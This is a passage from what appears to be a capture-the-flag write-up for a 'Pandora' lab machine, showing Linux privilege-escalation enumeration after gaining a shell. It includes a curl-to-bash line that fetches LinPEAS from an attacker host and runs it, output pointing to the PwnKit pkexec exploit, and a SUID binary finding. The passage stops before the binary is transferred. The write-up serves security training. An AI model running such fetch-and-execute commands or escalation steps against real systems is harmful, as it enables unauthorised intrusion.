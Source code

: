 Now we have proper shell.

We can run **LinPEAS**. We download it, then run a `python http` server and curl from it:

```bash
curl http://10.10.14.12:8001/linpeas.sh | bash
```

There's this:

```bash
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

From their website: We discovered a Local Privilege Escalation (from any user to root) in
polkit's pkexec, a SUID-root program that is installed by default on
every major Linux distribution:

"Polkit (formerly PolicyKit) is a component for controlling system-wide
privileges in Unix-like operating systems. It provides an organized way
for non-privileged processes to communicate with privileged ones. [...]
It is also possible to use polkit to execute commands with elevated
privileges using the command pkexec followed by the command intended to
be executed (with root permission)." (Wikipedia)

So we check for `pkexec`!

```bash
matt@pandora:/home/matt$ pkexec --version
pkexec version 0.105
```

Nice. We also see:

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
-rwsr-x--- 1 root matt 17K Dec  3  2021 /usr/bin/pandora_backup (Unknown SUID binary)
```

Matt seems to have access to it.

```bash
matt@pandora:/home/matt$ file /usr/bin/pandora_backup   
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped
```

We can `netcat` the file over:
